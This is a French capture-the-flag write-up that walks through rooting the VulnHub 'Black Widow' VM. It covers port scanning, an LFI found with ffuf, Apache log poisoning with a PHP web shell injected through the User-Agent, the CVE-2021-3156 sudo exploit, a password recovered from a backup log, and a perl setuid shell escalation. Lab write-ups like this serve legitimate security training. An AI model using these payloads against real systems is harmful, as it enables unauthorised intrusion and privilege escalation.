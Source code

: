 # Solution du CTF Black Widow de VulnHub

Intro
-----

[Black Widow](https://www.vulnhub.com/entry/black-widow-1,637/) est un CTF créé par *0xJin* et *mindsflee*, disponible sur VulnHub.  

Le CTF est de type boot2root avec un cas d'exploitation web classique qui aurait dû me prendre seulement quelques minutes mais un bug sur le CTF en a décidé autrement :p  

Le scan Nmap nous retourne une pléthore de ports liés aux différents services RPC. NFS aurait pu être de la partie mais aucun export n'est présent.  

Un proxy Squid tourne mais ne nous permet pas d'aller voir en interne (*curl -x http://192.168.56.25:3128/ http://localhost/* nous refuse l'accès).  

```plain
$ sudo nmap -T5 -p- -sCV 192.168.56.25  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-11 20:16 CET 
Nmap scan report for 192.168.56.25 
Host is up (0.00011s latency). 
Not shown: 65526 closed tcp ports (reset) 
PORT      STATE SERVICE    VERSION 
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 f8:3b:7c:ca:c2:f6:5a:a6:0e:3f:f9:cf:1b:a9:dd:1e (RSA) 
|   256 04:31:5a:34:d4:9b:14:71:a0:0f:22:78:2d:f3:b6:f6 (ECDSA) 
|_  256 4e:42:8e:69:b7:90:e8:27:68:df:68:8a:83:a7:87:9c (ED25519) 
80/tcp    open  http       Apache httpd 2.4.38 ((Debian)) 
|_http-server-header: Apache/2.4.38 (Debian) 
|_http-title: Site doesn't have a title (text/html). 
111/tcp   open  rpcbind    2-4 (RPC #100000) 
| rpcinfo:  
|   program version    port/proto  service 
|   100000  2,3,4        111/tcp   rpcbind 
|   100000  2,3,4        111/udp   rpcbind 
|   100000  3,4          111/tcp6  rpcbind 
|   100000  3,4          111/udp6  rpcbind 
|   100003  3           2049/udp   nfs 
|   100003  3           2049/udp6  nfs 
|   100003  3,4         2049/tcp   nfs 
|   100003  3,4         2049/tcp6  nfs 
|   100005  1,2,3      36713/udp   mountd 
|   100005  1,2,3      44363/tcp   mountd 
|   100005  1,2,3      57572/udp6  mountd 
|   100005  1,2,3      60195/tcp6  mountd 
|   100021  1,3,4      35689/tcp   nlockmgr 
|   100021  1,3,4      44158/udp   nlockmgr 
|   100021  1,3,4      44621/tcp6  nlockmgr 
|   100021  1,3,4      48444/udp6  nlockmgr 
|   100227  3           2049/tcp   nfs_acl 
|   100227  3           2049/tcp6  nfs_acl 
|   100227  3           2049/udp   nfs_acl 
|_  100227  3           2049/udp6  nfs_acl 
2049/tcp  open  nfs_acl    3 (RPC #100227) 
3128/tcp  open  http-proxy Squid http proxy 4.6 
|_http-server-header: squid/4.6 
|_http-title: ERROR: The requested URL could not be retrieved 
35689/tcp open  nlockmgr   1-4 (RPC #100021) 
44363/tcp open  mountd     1-3 (RPC #100005) 
53631/tcp open  mountd     1-3 (RPC #100005) 
54727/tcp open  mountd     1-3 (RPC #100005)
```

Conclusion: on s'en tient au port 80 qu'on maltraite avec l'aide de *Feroxbuster*. L'outil de brute force de paths nous trouve un dossier */company* à la racine du site.  

Assez rapidement je remarque en commentaire HTML le message suivant :  

> We are working to develop a php inclusion method using "file" parameter - Black Widow DevOps Team.

Je n'ai pas vraiment de fichier php à tester donc re-coup de *Feroxbuster* sur les fichiers et il en ressort un fichier *started.php*.  

Je parviens à reproduire la vulnérabilité d'inclusion avec la commande suivante :  

```bash
ffuf -w /wordlists/files/JHADDIX_LFI.txt -u http://192.168.56.25/company/started.php?file=FUZZ -fs 0
```

Il faut remonter une bonne quantité de dossiers avant d'atteindre la racine :  

```plain
http://192.168.56.25/company/started.php?file=../../../../../../../../../../../../../etc/passwd
```

L'étape suivante est bien sûr d'injecter du PHP dans un fichier présent sur le disque avant de l'inclure et là... catastrophe, j'ai tout essayé sans obtenir quoi que ce soit.  

Je me suis dirigé sur l'hypothèse du bug du CTF quand j'ai vu qu'inclure */var/log/apache2/access.log.1* retournait un résultat mais que l'on avait rien pour */var/log/apache2/access.log*.  

Les auteurs du CTF ont en effet simplement dû changer les permissions sur les logs manuellement mais comme logrotate fonctionne, quand moi j'ai démarré la VM, celle-ci a synchronisé son horloge et logrorate a archivé le fichier de log courant pour en créer un nouveau qui a les permissions par défaut (c'est à dire qu'on ne peut pas l'inclure).  

Par conséquent, boot sur la VM avec édition de l'entrée GRUB pour avoir un shell et correction des permissions pour avoir la même situation que les autres personnes ayant déjà résolu ce CTF :-(  

Injection de logs
-----------------

On part sur du classique à savoir passer du PHP dans le User-Agent en évitant d'y mettre apostrophes et guillemets qui risqueraient d'être échapés.  

```bash
curl -A '<?php system($_GET[chr(99)]); ?>' http://192.168.56.25/
```

Cette fois ça fonctionne !  

```plain
http://192.168.56.25/company/started.php?file=../../../../../../../../../../../../..//var/log/apache2/access.log&c=id
```

Kansas City Shuffle
-------------------

On peut passer directement de *www-data* à *root* via la faille sudo :  

```plain
www-data@blackwidow:/tmp/CVE-2021-3156-main$ python exploit_nss.py 
sudoedit: unable to resolve host blackwidow: Temporary failure in name resolution 
# id 
uid=0(root) gid=0(root) groups=0(root),33(www-data) 
# cd /root 
# ls  
root.txt 
# cat root.txt 

▄▄▄▄· ▄▄▌   ▄▄▄·  ▄▄· ▄ •▄     ▄▄▌ ▐ ▄▌▪  ·▄▄▄▄        ▄▄▌ ▐ ▄▌ 
▐█ ▀█▪██•  ▐█ ▀█ ▐█ ▌▪█▌▄▌▪    ██· █▌▐███ ██▪ ██ ▪     ██· █▌▐█ 
▐█▀▀█▄██▪  ▄█▀▀█ ██ ▄▄▐▀▀▄·    ██▪▐█▐▐▌▐█·▐█· ▐█▌ ▄█▀▄ ██▪▐█▐▐▌ 
██▄▪▐█▐█▌▐▌▐█ ▪▐▌▐███▌▐█.█▌    ▐█▌██▐█▌▐█▌██. ██ ▐█▌.▐▌▐█▌██▐█▌ 
·▀▀▀▀ .▀▀▀  ▀  ▀ ·▀▀▀ ·▀  ▀     ▀▀▀▀ ▀▪▀▀▀▀▀▀▀▀•  ▀█▄▀▪ ▀▀▀▀ ▀▪ 

Congrats! 

You've rooted Black Widow! 

0xJin - mindsflee 

0780eb289a44ba17ea499ffa6322b335
```

Regular
-------

Mais on peut voir sur le système un utilisateur *viper* qui dispose d'un fichier *local.txt* (sans doute un flag) dans son répertoire...  

A première vue LinPEAS ne remonte rien d'excitant. Il y a quand même ces capabilities vides sur le binaire perl qui m'échappent :  

```plain
Files with capabilities (limited to 50): 
/usr/bin/perl = 
/usr/bin/perl5.28.1 = 
/usr/bin/ping = cap_net_raw+ep 
/usr/lib/squid/pinger = cap_net_raw+ep
```

Qu'est-ce que ça signifie ? J'ai testé par exemple de lire */etc/shadow* avec mais sans résultats.  

LinPEAS donne aussi une liste de fichiers de logs auxquels on a accès et il y a notamment le fichier */var/backups/auth.log*.  

Une permissions en lecture sur le véritable *auth.log* m'aurait bien aidé pour la faille d'inclusion... Voyons voir ce qu'il y a dans ce fichier.  

```plain
Dec 12 16:56:46 test sshd[29560]: Failed password for invalid user ?V1p3r2020!? from 192.168.1.109 port 7090 ssh2
```

Cette ligne est la plus intéressante. L'utilisateur a visiblement tapé son mot de passe quand le nom d'utilisateur lui était demandé.  

On peut ainsi se connecter sur le compte via SSH.  

Fatality
--------

On peut donc obtenir le flag utilisateur :  

```plain
viper@blackwidow:~$ cat local.txt  
d930fe79919376e6d08972dae222526b
```

L'historique bash de Viper n'a pas été vidé et on peut voir par exemple ces commandes :  

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
--- snip ---
cd backup_site/ 
ls -lrt 
cd assets 
ls -lrt 
cd vendor 
ls -lrt 
cd weapon/ 
ls 
./arsenic -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
--- snip ---

```

Comme vu plus tôt le binaire perl ne dispose plus de capabilities. En revanche on peut reprendre les autres commandes car le fichier *arsenic* est bien présent à l'emplacement attendu :  

```plain

viper@blackwidow:~/backup_site/assets/vendor/weapon$ ./arsenic -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";' 
# id 
uid=0(root) gid=1001(viper) groups=1001(viper)
```


*Published January 12 2022 at 13:33*